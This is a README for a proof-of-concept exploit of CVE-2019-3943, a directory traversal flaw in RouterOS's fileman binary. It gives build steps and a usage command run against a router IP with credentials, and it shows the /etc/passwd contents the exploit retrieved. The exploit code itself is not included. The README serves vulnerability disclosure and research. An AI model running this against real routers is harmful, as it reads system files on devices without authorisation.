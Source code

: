 # CVE-2019-3943 Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC reads the contents of /etc/passwd

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

Against 6.42.12:

```sh
./cve_2019_3943_poc -i 192.168.1.139 -u admin --password lolwat

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```
